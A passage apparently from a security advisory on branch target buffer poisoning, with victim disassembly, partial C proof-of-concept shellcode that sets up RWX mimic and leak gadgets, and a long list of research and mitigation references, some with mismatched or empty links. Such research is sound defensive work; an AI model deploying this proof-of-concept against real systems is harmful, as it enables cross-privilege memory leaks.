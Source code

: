 ```.asm
   0x000055fe04bcc17f <+22>:    b8 00 00 00 00  mov    eax,0x0   
   0x000055fe04bcc184 <+27>:    e8 c7 fe ff ff  call   0x55fe04bac050 <printf@plt>   
   0x000055fe04bcc189 <+32>:    b8 00 00 00 00  mov    eax,0x0   
   0x000055fe04bcc18e <+37>:    e8 b6 ff ff ff  call   0x55fe04bac149 <f1>
   0x000055fe04bcc193 <+42>:    eb f4   jmp    0x55fe04bac189 <main+32>

```

The following shellcode should be placed:

```.c
//offset of the instruction target of the return on victim code
#define DSTOFFSET 0x193ULL
//start of the gadget on victim code
#define SRCOFFSET 0x152ULL

/*
In memory, the shellcode below produces the following instructions in the attacker address that replays the victim's branch sequence, leading to a BTB collision:

.asm
   0x7ffff7cc7152:      mov    ebx,0x0
   0x7ffff7cc7157:      jmp    0x7ffff7cc715c
   0x7ffff7cc7159:      add    ebx,0x1
   0x7ffff7cc715c:      cmp    ebx,0xc7
   0x7ffff7cc7162:      jle    0x7ffff7cc7159
   0x7ffff7cc7164:      nop
   0x7ffff7cc7165:      nop
   0x7ffff7cc7166:      nop
   0x7ffff7cc7167:      nop
   0x7ffff7cc7168:      jmp    QWORD PTR [rdi]
*/

uint8_t g1[]="\xbb\x00\x00\x00\x00\xeb\x03\x83\xc3\x01\x81\xfb\xc7\x00\x00\x00\x7e\xf5\x90\x90\x90\x90\xff\x27"; //goes to 0x152
[...]

uint8_t *rwx1 = requestMem(NULL,0x100000);
uint8_t *rwx2 = requestMem(NULL,0x1000*simPages);

//set up source mimic gadget into all possible 20-lsb aligned positions
for(unsigned i=0;i<0x100;i++){
    memcpy(rwx1+i*0x1000UL+SRCOFFSET,g1,sizeof(g1));
}


//real indirect branch destination does nothing
rdiPtr = (uint8_t *)f1;

//but mispredicted destination jumps to leakGadget
for(uint64_t i=0;i<simPages;i++){
    copyLeakGadget(rwx2 +i*0x1000UL + DSTOFFSET);
}  
```


[^1]: “Spectre Returns! Speculation Attacks using the Return Stack Buffer". Link: [https://www.usenix.org/system/files/conference/woot18/woot18-paper-koruyeh.pdf](https://www.usenix.org/system/files/conference/woot18/woot18-paper-koruyeh.pdf)
[^2]: “RETBLEED: Arbitrary Speculative Code Execution with Return Instructions”.  Link: [https://comsec.ethz.ch/research/microarch/retbleed/](https://comsec.ethz.ch/research/microarch/retbleed/) 
[^3]: “Exec ASLR: Abusing Intel Branch Predictors to bypass ASLR”. Link: [https://github.com/es0j/ExecASLR-ekoparty](https://github.com/es0j/ExecASLR-ekoparty)
[^4]: “Reverse Branch Target Buffer Poisoning”.  Link: [https://cos.ufrj.br/uploadfile/publicacao/3061.pdf](https://cos.ufrj.br/uploadfile/publicacao/3061.pdf) 
[^5]: “Google Project Zero: Reading privileged memory with a side-channel”.  Link: [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html) 
[^6]: “Branch History Injection: On the Effectiveness of Hardware Mitigations Against Cross-Privilege Spectre-v2 Attacks”.  Link: [http://download.vusec.net/papers/bhi-spectre-bhb_sec22.pdf](http://download.vusec.net/papers/bhi-spectre-bhb_sec22.pdf) 
[^7]: “The Linux kernel user-space API guide: Speculation Control”.  Link: [https://www.kernel.org/doc/html/latest/userspace-api/spec_ctrl.html](https://www.kernel.org/doc/html/latest/userspace-api/spec_ctrl.html)
[^8]: "Speculative Execution Side Channel Mitigations". Link: [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/speculative-execution-side-channel-mitigations.html#IBPB](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/speculative-execution-side-channel-mitigations.html#IBPB)
[^9]: "Software Techniques for Managing Speculation on AMD Processors".  Link: [https://www.amd.com/system/files/documents/software-techniques-for-managing-speculation.pdf](https://www.amd.com/system/files/documents/software-techniques-for-managing-speculation.pdf)
[^10]: "Speculative Processor Vulnerability". Link: [https://developer.arm.com/Arm%20Security%20Center/Speculative%20Processor%20Vulnerability](https://developer.arm.com/Arm%20Security%20Center/Speculative%20Processor%20Vulnerability)
[^11]: Linux Kernel Source Code.  Link: [https://elixir.bootlin.com/linux/v5.17.9/source/arch/x86/mm/tlb.c](https://reviews.freebsd.org/rS327876)
[^12]: FreeBSD Kernel Source Code.  Link: [https://reviews.freebsd.org/rS327876](https://reviews.freebsd.org/rS327876)
[^13]: "Cache Speculation Side-channels Linux kernel mitigations".  Link: [https://developer.arm.com/support/arm-security-updates/speculative-processor-vulnerability/downloads/cache-speculation-side-channels-linux-kernel-mitigations](https://developer.arm.com/support/arm-security-updates/speculative-processor-vulnerability/downloads/cache-speculation-side-channels-linux-kernel-mitigations)
[^14]: "Cache Speculation Side-channels v2.5". Link: [https://developer.arm.com/documentation/102816/latest/](https://developer.arm.com/documentation/102816/latest/)
[^15]: "Exec ASLR: Abusing intel branch predictors to bypass ASLR". Link: [https://www.youtube.com/watch?v=Qj4z-KvnkxU](https://www.youtube.com/watch?v=Qj4z-KvnkxU)
[^16]: "Jump Over ASLR: Attacking Branch Predictors to Bypass ASLR". Link: [https://www.cs.ucr.edu/~nael/pubs/micro16.pdf](https://www.cs.ucr.edu/~nael/pubs/micro16.pdf)
[^17]: "mario_baslr -  Proof-of-Concept tool for leaking the base address of the KVM hypervisor kernel module (kvm.ko) from a guest VM" [https://github.com/felixwilhelm/mario_baslr](https://github.com/felixwilhelm/mario_baslr)
[^18]: “Two methods for exploiting speculative control flow”. Link: hijacks[https://www.usenix.org/system/files/woot19-paper_mambretti.pdf](https://www.usenix.org/system/files/woot19-paper_mambretti.pdf)
[^19]: “Exploiting Branch Target Injection, page 37”. Link: 
[^20]: “Chip Red Pill: How we achieved to execute arbitrary [micro]code inside Intel Atom CPUs”.  Link:
[^21]: “XuCode: An Innovative Technology for Implementing Complex Instruction Flows”. Link: [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/secure-coding/xucode-implementing-complex-instruction-flows.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/secure-coding/xucode-implementing-complex-instruction-flows.html)
[^22]: “A Recursive Counter for Linked List RSB”. Link: [https://github.com/rrbranco/Papers/blob/master/2019-A_Recursive_Counter_for_Linked_List_RSB.pdf](https://github.com/rrbranco/Papers/blob/master/2019-A_Recursive_Counter_for_Linked_List_RSB.pdf)